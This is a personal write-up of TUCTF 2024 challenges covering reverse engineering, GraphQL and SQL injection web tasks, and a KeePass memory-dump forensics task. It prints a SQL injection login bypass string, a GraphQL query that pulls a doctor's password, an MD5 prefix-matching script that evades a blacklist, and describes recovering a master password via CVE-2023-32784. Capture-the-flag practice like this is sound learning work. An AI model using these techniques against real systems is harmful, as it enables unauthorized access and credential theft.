



# Background Information
I participated in TUCTF 2024 as jp12345. I let my friend mud come on to play a chall or two. 

# Reverse Engineering

## Mystery Box

> Lets play a game!!! You spend hours trying to guess my secret phrase! Can you figure out the secret code and retrieve the flag?

We have a exe file, so we have to use wine.

Running it, we are prompted by the following:

```bash
jake@computer:~/ctf-dump/tuctf/mysterybox$ wine mystery_box.exe 
[Security] Performing environment checks...

Welcome to Mystery Box!
1. Play Game
2. Exit
Enter your choice: 1
Enter the secret code to continue: a
Incorrect code. Try again.
```

Alright, so we have to find the secret code to continue and probably get the flag.

Opening this up in ghidra we can immediately locate the code the program is running:

```C
void FUN_140001540(undefined8 param_1,byte *param_2,undefined8 param_3,undefined8 param_4)

{
  size_t sVar1;
  byte *pbVar2;
  ulonglong uVar3;
  short local_c8;
  undefined6 uStack_c6;
  short local_c0;
  byte local_88 [72];
  
  do {
    while( true ) {
      while( true ) {
        puts("\nWelcome to Mystery Box!");
        puts("1. Play Game");
        puts("2. Exit");
        FUN_1400027b0("Enter your choice: ",param_2,param_3,param_4);
        param_2 = (byte *)&local_c8;
        FUN_140002760(&DAT_1400040d9,&local_c8,param_3,param_4);
        if (local_c8 == 0x31) break;
        if (local_c8 == 0x32) {
          puts("Exiting... Goodbye!");
                    // WARNING: Subroutine does not return
          exit(0);
        }
        puts("Invalid choice. Please try again.");
      }
      FUN_1400027b0("Enter the secret code to continue: ",param_2,param_3,param_4);
      pbVar2 = (byte *)&local_c8;
      FUN_140002760(&DAT_1400040d9,&local_c8,param_3,param_4);
      if (CONCAT62(uStack_c6,local_c8) == 0x4d65737265766552) break;
LAB_1400015ee:
      puts("Incorrect code. Try again.");
      param_2 = pbVar2;
    }
    uVar3 = 0;
    param_2 = local_88;
    if (local_c0 != 0x65) goto LAB_1400015ee;
    for (; sVar1 = strlen(&DAT_140003000), uVar3 < sVar1; uVar3 = uVar3 + 1) {
      param_2[uVar3] = (&DAT_140003000)[uVar3] ^ 0x5a;
    }
    local_88[sVar1] = 0;
    puts("Congratulations! You\'ve unlocked the secret feature!");
    FUN_1400027b0("Flag: %s\n",param_2,param_3,param_4);
  } while( true );
}
```

And we find the secret we need: 0x4d65737265766552. Let's convert to UTF-8 and just send it in the program.

It says "MesreveR" but we can assume it says "ReverseMe". Submmitting it and we get out flag!

```bash
jake@computer:~/ctf-dump/tuctf/mysterybox$ wine mystery_box.exe 
[Security] Performing environment checks...

Welcome to Mystery Box!
1. Play Game
2. Exit
Enter your choice: 1
Enter the secret code to continue: ReverseMe
Congratulations! You've unlocked the secret feature!
Flag: TUCTF{Banana_Socks}
```

## Simple Login

> Muhahaha, you will never get past my secret defenses. (When done correctly, this challenge returns the flag missing the opening curly brace; this needs to be there for the flag to work, and can be added easily).

We need to load this up in binaryninja (no brand loyalty). First thing we do is understand what is going on in the program.

```
int64_t main()
{
    void var_98;
    int64_t rax_1 = __security_cookie ^ &var_98;
    int64_t rdx;
    sub_140001620("If you are so confident, you may…", sub_140001620("Welcome to my super secure login…", rdx));
    void var_50;
    sub_1400016b0(" %50[^\n]", &var_50);
    int32_t rax_2;
    int64_t rdx_3;
    rax_2 = sub_140001000(&var_50);
    int64_t result;
    
    if (rax_2)
    {
        char* rax_3;
        int64_t rdx_4;
        rax_3 = malloc(0x26);
        sub_140001620("Okay okay fine, but what is it y…", rdx_4);
        void var_70;
        sub_1400016b0(" %29[^\n]", &var_70);
        int32_t rax_4;
        int64_t rdx_7;
        rax_4 = sub_140001420(&var_70, rax_3);
        
        if (rax_4)
        {
            sub_140001620(rax_3, sub_140001620("I can't believe you were able to…", rdx_7));
            result = 1;
        }
        else
            result = 0;
    }
    else
    {
        sub_140001620("My defenses are impenetrable.\n", rdx_3);
        result = 0;
    }
    
    __security_check_cookie(rax_1 ^ &var_98);
    return result;
}
```
Ok, so we need to access the "I can't believe you were able to…" part of the code. We need to find the username and pass "rax_4 = sub_140001420(&var_70, rax_3);"  which most likely is our password validation. 

Let's analyze that function:

```
int64_t sub_140001420(char* arg1, char* arg2)
{
    void var_58;
    int64_t rax_1 = __security_cookie ^ &var_58;
    void var_34;
    __builtin_memcpy(&var_34, "ruint", 6);
    int32_t var_38 = 0;
    int64_t result;
    
    while (true)
    {
        if (var_38 >= 5)
        {
            *arg2 = 0x54;
            arg2[1] = 0x55;
            arg2[2] = 0x43;
            arg2[3] = 0x54;
            arg2[4] = 0x46;
            result = sub_140001310(arg1, arg2);
            break;
        }
        
        if (*(&var_34 + var_38) != arg1[var_38])
        {
            result = 0;
            break;
        }
        
        var_38 += 1;
    }
    
    __security_check_cookie(rax_1 ^ &var_58);
    return result;
}
```

So we see the first part of the password, which is "ruint", we also have the value "TUCTF", our flag, and we also see a reference to another function `sub_140001310` and a bunch of hex values. Let's analyze the other parts of the program.

```
int64_t sub_140001040(char arg1, char arg2) __pure
{
    int32_t r8;
    arg_18 = r8;
    char var_18 = 0x32;
    
    if ((arg1 ^ 0x32) == arg2)
        return 1;
    
    return 0;
}

int64_t sub_140001310(char* arg1, char* arg2)
{
    void var_48;
    int64_t rax_1 = __security_cookie ^ &var_48;
    char var_20;
    __builtin_strncpy(&var_20, "Z]AWB@WA", 8);
    char var_18 = 0x1a;
    char var_17 = 0x1a;
    char var_16 = 0x1d;
    char var_15 = 0xb;
    char var_14 = 0x19;
    char var_13 = 0x1c;
    char var_12 = 2;
    char var_11 = 0x2c;
    int32_t var_28 = 5;
    int64_t result;
    
    while (true)
    {
        if (var_28 >= 0xd)
        {
            result = sub_140001100(arg1, arg2);
            break;
        }
        
        if (!sub_140001040(arg1[var_28], (&var_20)[var_28 - 5]))
        {
            result = 0;
            break;
        }
        
        arg2[var_28] = arg1[var_28] ^ (&var_18)[var_28 - 5];
        var_28 += 1;
    }
    
    __security_check_cookie(rax_1 ^ &var_48);
    return result;
}
```

Ok we have a value of "Z]AWB@WA" copied and a bunch of other hex values, and some XOR operations with 0x32. XORing "Z]AWB@WA" with 0x32 gets us "hosepres", a part of our password

```
int64_t sub_140001080(char arg1, char arg2) __pure
{
    if ((arg1 - 0x54) % 0x1a + 0x61 == arg2)
        return 1;
    
    return 0;
}

uint64_t sub_1400010c0(char arg1) __pure
{
    if (arg1 < 0x61 || arg1 > 0x7a)
        return arg1;
    
    return (arg1 - 0x54) % 0x1a + 0x61;
}

int64_t sub_140001100(char* arg1, char* arg2)
{
    void var_78;
    int64_t rax_1 = __security_cookie ^ &var_78;
    char var_40;
    __builtin_strncpy(&var_40, "reingvbaonetr", 0xd);
    char var_30;
    __builtin_strncpy(&var_30, "guebhtu_gur_fhoebhgvarf!!}", 0x1a);
    int32_t var_58 = 1;
    int32_t var_54 = 1;
    int64_t result;
    
    while (true)
    {
        if (var_54 >= 0x1a)
        {
            result = 1;
            break;
        }
        
        if (!sub_140001080(arg1[var_54 % 0xd + 0xd], (&var_40)[var_54 % 0xd]))
        {
            result = 0;
            break;
        }
        
        arg2[var_58 % 0x1a + 0xd] = sub_1400010c0((&var_30)[var_58 % 0x1a]);
        arg2[(var_58 + 1) % 0x1a + 0xd] = sub_1400010c0((&var_30)[(var_58 + 1) % 0x1a]);
        var_58 += 2;
        var_54 += 2;
    }
    
    __security_check_cookie(rax_1 ^ &var_78);
    return result;
}
```

Ok, we can see string(s) that looks like the end part of the flag! It looks like its encoded in ROT13, so let's decode it.

We get "ervationbarge", and "through_the_subroutines!!}"

Let's combine our password: ruinthosepreservationbargethrough_the_subroutines!!}. Weird, but let's try it.

Finally, we see the username, with the full string being "TheSuperSecureAdminWhoseSecretWillNeverBeGotten":

```
int64_t sub_140001000(char* arg1)
{
    if (strcmp(arg1, "TheSuperSecureAdminWhoseSecretWi…"))
        return 0;
    
    return 1;
}
```

And we see it works!

```bash
jake@computer:~/ctf-dump/tuctf/simplelogin$ wine simpleLogin.exe 
Welcome to my super secure login page! You'll never get my flag!
If you are so confident, you may challenge me, although you'll never make it past.
What is it you think my username is?
TheSuperSecureAdminWhoseSecretWillNeverBeGotten
Okay okay fine, but what is it you think my password is?
ruinthosepreservationbargethrough_the_subroutines!!}
I can't believe you were able to figure out my password too! There must be some tricker
y going on! But fine, here is your reward
TUCTFrunning_through_the_subroutines!!}
```

## Custom Image Generator

> It's still a work in progress, but I made my own file format! It is pretty efficient I think, but there may be improvements.

Ok we are provided a "flag.timg" file and a timg.py file. Let's analyze the timg.py file. Let's focus on covert.

```
def conv():
    file = input("Enter the path to you image you want converted to a TIMG file:\n")
    out = input("Enter the path youd like to write the TIMG to:\n")
    img = Image.open(file)
    w,h = img.size
    write = [b'\x54',b'\x49',b'\x4D',b'\x47',b'\x00',b'\x01',b'\x00',b'\x02']
    for x in w.to_bytes(4):
        write.append(x.to_bytes(1))
    for y in h.to_bytes(4):
        write.append(y.to_bytes(1))
    write.append(b'\x52')
    write.append(b'\x55')
    write.append(b'\x42')
    write.append(b'\x59')


    for i in range(h):
        dat = [b'\x44',b'\x41',b'\x54',b'\x52']
        for j in range(w):
            dat.append(img.getpixel([j,i])[0].to_bytes(1))
        dat.append(getCheck(dat[4:]))
        for wa in dat:
            write.append(wa)

    for i in range(h): 
        dat = [b'\x44',b'\x41',b'\x54',b'\x47']
        for j in range(w):
            dat.append(img.getpixel([j,i])[1].to_bytes(1))
        dat.append(getCheck(dat[4:]))
        for wa in dat:
            write.append(wa)

    for i in range(h): 
        dat = [b'\x44',b'\x41',b'\x54',b'\x42'  ]
        for j in range(w):
            print(img.getpixel([j,i])[2].to_bytes(1))
            dat.append(img.getpixel([j,i])[2].to_bytes(1)) 
        print(dat)  
        dat.append(getCheck(dat[4:]))
        for wa in dat:
            write.append(wa)

    write.append(b'\x44')
    write.append(b'\x41')
    write.append(b'\x54')
    write.append(b'\x45')

    with open(out,"ab") as f:
        for b in write:
            f.write(b)

    return 0  
```

Ok so it seems to create a TIMG header, stores the dimensions of the image, then begins setting RGB values through headers like "DATR", "DATG", and "DATB"

So what we can do is just code the display function ourselves with the values within the timg image:

```
def display():
    try:
        file = input("Enter TIMG file path: ")
        out = input("Enter path to save the output image (or press Enter to display): ")
        
        with open(file, "rb") as f:
            if f.read(4) != b'TIMG':
                print("Invalid TIMG file")
                return
                
            f.read(4)  # Version
            width = int.from_bytes(f.read(4), byteorder='big')
            height = int.from_bytes(f.read(4), byteorder='big')
            
            if width > 4000 or height > 4000:
                print("Image too large")
                return
                
            if f.read(4) != b'RUBY':
                print("Invalid TIMG format")
                return
                
            r = np.zeros((height, width), dtype=np.uint8)
            g = np.zeros((height, width), dtype=np.uint8)
            b = np.zeros((height, width), dtype=np.uint8)
            
            for arr, marker in [(r, b'DATR'), (g, b'DATG'), (b, b'DATB')]:
                for i in range(height):
                    if f.read(4) != marker:
                        print(f"Missing {marker} marker")
                        return
                    arr[i] = np.frombuffer(f.read(width), dtype=np.uint8)
                    f.read(1)  # Checksum
            
            if f.read(4) != b'DATE':
                print("Missing end marker")
                return
                
            img = Image.fromarray(np.dstack((r, g, b)))
            if out:
                img.save(out)
            else:
                img.show()
                
    except Exception as e:
        print(f"Error: {e}")
```

And... we get our flag!



# Web

## Med Graph

> My startup is launching the next big patient portal, using the hottest new tech! Check it out with our guest account: Demo:TUCTF. We're still in beta, but it's so secure we already have users! Note: This challenge requires no bruteforcing or intense scanning of the application.

First, lets just log in normally. We will just use Demo:TUCTF to log in. 

Looking at the network in insepct element, we can see a graphql request and a dashboard.js file that sends the graphql request.

```js
async function fetchPatientData() {
    const query = `
        {
            userData {
                name
                age
                medicalHistory
                medications {
                    name
                    dosage
                    description
                }
                doctor {
                    name
                    department
                }
            }
        }
    `;

    const response = await fetch('/graphql', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({ query })
    });

    const result = await response.json();
    displayPatientInfo(result.data.userData);
}

// Render patient and doctor data
function displayPatientInfo(patient) {
    const patientInfo = document.getElementById('patient-info');
    patientInfo.innerHTML = `
        <p>Patient Name: ${patient.name}</p>
        <p>Age: ${patient.age}</p>
        <p>Medical History: ${patient.medicalHistory}</p>
        <p>Medications: ${patient.medications[0].name}, ${patient.medications[0].dosage}</p>
        <p>Doctor: ${patient.doctor.name} (${patient.doctor.department})</p>
    `;
}

async function fetchDoctorData() {
    const query = `
        {
            doctor (id:7892) {
                name
                department
                patients {
                    name
                    age
                    medicalHistory
                    medications {
                        name
                        dosage
                        description
                    }
                }
            }
        }
    `;

    const response = await fetch('/graphql', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({ query })
    });

    const result = await response.json();
    displayDoctorInfo(result.data.doctor);
}

function displayDoctorInfo(doctor) {
    const doctorInfo = document.getElementById('doctor-info');
    doctorInfo.innerHTML = `
    <p>Doctor Name: ${doctor.name}</p>
    <p>Department: ${doctor.department}</p>
    <h3 style="text-align: center;">Patients</h3>
    <hr>
    `;
    for (let patient of doctor.patients) {
        doctorInfo.innerHTML += `
            <p>Patient Name: ${patient.name}</p>
            <p>Age: ${patient.age}</p>
            <p>Medical History: ${patient.medicalHistory}</p>
            <p>Medications: ${patient.medications[0].name}, ${patient.medications[0].dosage}</p>
            <hr>
        `;
    }
}
```

The request seems unsantized so we can basically just send anything we want to the endpoint. My guess for the objective was to log in as a doctor, but I was lowkey kinda lazy and didn't want to do it. So I just gave it to my friend mud to solve. 

He was able to dump out the schema:

```
{
  "__schema": {
    "types": [
      {
        "description": null,
        "fields": [
          {
            "description": null,
            "name": "patient"
          },
          {
            "description": null,
            "name": "userData"
          },
          {
            "description": null,
            "name": "doctor"
          },
          {
            "description": null,
            "name": "allPatients"
          },
          {
            "description": null,
            "name": "allDoctors"
          },
          {
            "description": null,
            "name": "appointmentsByPatient"
          },
          {
            "description": null,
            "name": "appointmentsByDoctor"
          }
        ],
        "kind": "OBJECT",
        "name": "Query"
      },
      {
        "description": null,
        "fields": [
          {
            "description": null,
            "name": "id"
          },
          {
            "description": null,
            "name": "name"
          },
          {
            "description": null,
            "name": "age"
          },
          {
            "description": null,
            "name": "medicalHistory"
          },
          {
            "description": null,
            "name": "medications"
          },
          {
            "description": null,
            "name": "doctor"
          },
          {
            "description": null,
            "name": "password"
          }
        ],
        "kind": "OBJECT",
        "name": "PatientType"
      },
...
```

Apparently he said we didn't have the permissions to access the doctor stuff ourselves, so we have to find a way in through patient. 

He was able to access doctor information use the original query, but to inject a password into the field of doctor in order to get the doctor's password.

```
query = `
        {
            userData {
                name
                age
                medicalHistory
                medications {
                    name
                    dosage
                    description
                }
                doctor {
                    name
                    department
            password
                }
            }
        }
    `;
response = await fetch('/graphql', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({ query })
    }).then(r=>r.json());
```

And with that he solves it!



```TUCTF{w3_7h1nk_1n_6r4ph5}```

## Shopping Time

> A simple login page can you get past it? And remember there are secrets you will have to figure out. After you find the flag remember that the format is TUCTF{(FLAG)} and the if the flag has spaces use _ instead when submitting.

Ok with the power of guessing what the challenge was, we can easily  bypass the login with an SQL injection

username: A' OR 1=1--
password: whatever you want



By doing a google reverse image search of one of the symbols, we find that it's "steel alphabet" from coppermind. https://coppermind.net/wiki/Steel_alphabet

After some writing and stuff. We can get the flag. (I did this one in class on a post it note so I lowkey forgot it and dont have it rn)

## Shopping Time

> I finally got my online shop up and running, check it out and see what you like!

We are provided with a source code `app.py`. Let's look at it!

```python
from flask import Flask,render_template,request, redirect
import sqlite3
import hashlib

app = Flask(__name__)


@app.route("/")
def mainHandler():
    return render_template("index.html")

@app.route("/review")
def reviewHandler():
    con = sqlite3.connect("shopping.db")
    cur = con.cursor()
    item = request.args.get("item")
    if item == "Flag":
        return("Blacklisted term detected")
    hash = hashlib.md5(item.encode()).hexdigest()
    result = cur.execute("SELECT * FROM items WHERE id=?", (hash[0:6],))
    try:
        result = result.fetchone()
        item = result[1]
    except:
        return (redirect("/"))
    return render_template("review.html",placeholder=item,price=result[2],desc=result[3],img=result[4])


if __name__=="__main__":
    app.run(host="0.0.0.0",port=8000,debug=False)
```

So the program gets stuff from sqlite, but the flag is blacklisted, and if we want it we need to find a matching 6-bytes of the hexstring.

We can easily just get a hash that shares the same 6 bytes of the hexstring:

```python
import hashlib
import random
import string

def find_matching_md5(target_prefix):
    # Ensure the prefix is in lowercase, as MD5 outputs lowercase hexadecimal
    target_prefix = target_prefix.lower()

    while True:
        # Generate a random string
        candidate = ''.join(random.choices(string.ascii_letters + string.digits, k=16))
        
        # Compute its MD5 hash
        candidate_hash = hashlib.md5(candidate.encode()).hexdigest()
        
        # Check if the first 6 characters match the target prefix
        if candidate_hash.startswith(target_prefix):
            return candidate, candidate_hash


target_hash = "c5836008c1649301e29351a55db8f65c"
target_prefix = target_hash[:6]  # Get the first 6 characters of the target hash
matching_input, matching_hash = find_matching_md5(target_prefix)

print(f"Found matching input: {matching_input}")
print(f"Matching hash: {matching_hash}")
```

We get an input: bxcAyd5PMDG0Nax2

Submitting this in the search, we get our flag!

https://shopping-time.tuctf.com/review?item=bxcAyd5PMDG0Nax2

TUCTF{k1nd_0f_an_1d0r_vu1n!}

# Forensics

## Bunker

> [REPORT] Mail notification received from access point. Subject: YoRHa_CLASSIFIED_12u3440029491.
>
> Origin: Bunker.
>
> Query: What is the nature of this transmission?
>
> Hypothesis: Perhaps a deeper analysis of the files enclosed can yield more information.
>
> Proposal: Scanner-type unit is advised to perform standard scanning procedures on the data for further analysis and conclusion.
>
> Warning: Data appears to be classified. Any acts related to hacking and unauthorized transactions could be associated with treason. Unit is advised to perform such acts in secrecy.

Ok we are given a memdump and a keepass master database.

We can analyze this memdump using radare2.

```bash
[0x011a4fde]> iSq~exe
0xaa0000 0xdba000 ---- C:\Program Files\KeePass Password Safe 2\KeePass.exe
```

So it seems to be a dump of the KeePass.exe executable. Googling keepass.exe we get a very interesting vulnerability: cve-2023-32784. Basically you can dump the master password from a memdump or running keepass executable. So I just googled cve-2023-32784 poc and downloaded the one I could run on linux. I found this one: https://github.com/vdohney/keepass-password-dumper

```
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     L, Ï, , §, y, H, , q, $, W, A, 
3.:     0, 
4.:     R, 
5.:     y, 
6.:     _, 
7.:     2, 
8.:     _, 
9.:     M, 
10.:    4, 
11.:    n, 
12.:    k, 
13.:    1, 
14.:    N, 
15.:    d, 
16.:    !, 
17.:    _, 
18.:    Y, 
19.:    0, 
20.:    R, 
21.:    H, 
22.:    4, 
Combined: ●{L, Ï, , §, y, H, , q, $, W, A}0Ry_2_M4nk1Nd!_Y0RH4

```

So we found the master password: GL0Ry_2_M4nk1Nd!_Y0RH4 (first byte always gets corrupted so we kinda have to guess)

Let's now unlock the keepass database (just asked my bro claude to do it for me lol):

```
from pykeepass import PyKeePass

# Path to the database file
db_file = "Bunker_DB"
master_password = "gL0Ry_2_M4nk1Nd!_Y0RH4"  # Replace with your master password

# Open the database
kp = PyKeePass(db_file, password=master_password)

# Iterate through all entries and print their fields
for entry in kp.entries:
    print(f"Title: {entry.title}")
    print(f"Username: {entry.username}")
    print(f"Password: {entry.password}")
    print(f"URL: {entry.url}")
    print(f"Notes: {entry.notes}")
    
    # Standard fields
    #print(f"Creation Time: {entry.creation_time}")
    #print(f"Last Access Time: {entry.last_access_time}")
    #print(f"Last Modification Time: {entry.last_modification_time}")
    print(f"Expiry Time: {entry.expiry_time}")
    #print(f"Times Used: {entry.times_used}")
    
    # Extra fields
    print(f"Icon: {entry.icon}")
    print(f"Group: {entry.group}")
    print(f"UUID: {entry.uuid}")
    
    # Binary data (file attachments)
    # if entry.binary_data:
    #     print(f"Binary Data: {entry.binary_data[:10]}...")  # Print first 10 bytes if binary data exists
    
    # # Custom fields
    # if entry.custom_fields:
    #     print(f"Custom Fields: {entry.custom_fields}")
    
    # History (previous password versions)
    if entry.history:
        print("History:")
        for history in entry.history:
           
            print(f"  - Password: {history.password}")
    
    # TOTP (Two-factor authentication secrets)
    # if entry.totp:
    #     print(f"TOTP Secret: {entry.totp}")
    
    # Tags
    if entry.tags:
        print(f"Tags: {', '.join(entry.tags)}")
    
    # Password last changed timestamp
    # if entry.password_last_changed:
    #     print(f"Password Last Changed: {entry.password_last_changed}")
    
    # Expiry check
    # if entry.is_expired:
    #     print(f"Entry {entry.title} has expired")
    
    # Favorite status
    # if entry.is_favorite:
    #     print(f"Entry {entry.title} is marked as a favorite")
    
    # For debugging: Show any other unknown attributes
    unknown_attrs = [attr for attr in dir(entry) if not attr.startswith('_') and attr not in dir(entry.__class__)]
    if unknown_attrs:
        print(f"Other Attributes: {', '.join(unknown_attrs)}")
    
    print("-" * 40)
```

And... we locate the flag:

```
Title: backdoor_pw
Username: None
Password: REDACTEDREDACTEDREDACTED
URL: None
Notes: e38090e5a0b1e5918ae38091

0d0ae4babae9a19ee381afe5b8b8e381ab

e5a496e983a8e381abe5958fe9a18ce381aee58e9fe59ba0e38292

e6b182e38281e381a6e38184e3819fe4ba8be3818ce588a4e381a3e381a6e38184e3828be38082
Expiry Time: 2024-11-17 22:12:46+00:00
Icon: 0
Group: Group: "Recycle Bin/Bunker"
UUID: cd797395-7b77-f845-bbd9-36a8ab3c1322
History:
  - Password: TUCTF{Th1s_C4nn0T_ConT1nu3}
```

# Foreward

Overall W ctf. Would have wished for some pwn since I want some practice to get better.